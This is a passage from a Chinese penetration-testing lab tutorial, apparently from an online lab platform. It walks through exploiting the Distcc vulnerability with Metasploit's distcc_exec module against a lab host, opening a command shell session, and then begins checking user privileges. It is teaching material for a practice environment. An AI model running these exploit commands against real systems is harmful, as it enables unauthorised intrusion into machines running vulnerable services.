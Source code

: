 ### 3.1 利用 Distcc 漏洞进入目标主机

利用 Distcc 漏洞这个实验，在上一节中，我们已经实践过了。在从实验楼登录 Kali  终端后，依次输入如下命令，攻陷所要渗透的目标主机：

```
# 打开 postgresql 服务
sudo service postgresql start

# 打开终端 MSF
sudo msfconsole

# 使用 use 命令对模块进行使用
use exploit/unix/misc/distcc_exec
 
# 利用 set 命令，设置渗透目标主机参数 RHOST 为 192.168.122.102
set RHOST 192.168.122.102

# 使用命令 exploit 命令，进行渗透攻击
exploit
```

![图片描述](../imgs/1483509960404.png-wm.png)


由攻击的 gif 图可以看出，目前已经成功建立了管道连接。其中值得注意的是，在攻击结束之后，会建立一个 `session` 保存当前的会话。gif 动图中显示的是，`Command shell session 4 opened` 是因为运行了四次攻击。

正常情况下，第一次输入攻击命令，你所见到的是：`Command shell session 1 opened`。

### 3.2 查看当前用户的权限

在成功地建立了管道连接之后，接下来可以对目标主机进行各种操作。在现实生产过程中，当渗透进入一个目标主机之后，我们首先要查看当前用户是不是 `root` 用户。利用命令 `whoami` 和 `id ` 可以查看当前用户是否是拥有管理员权限：
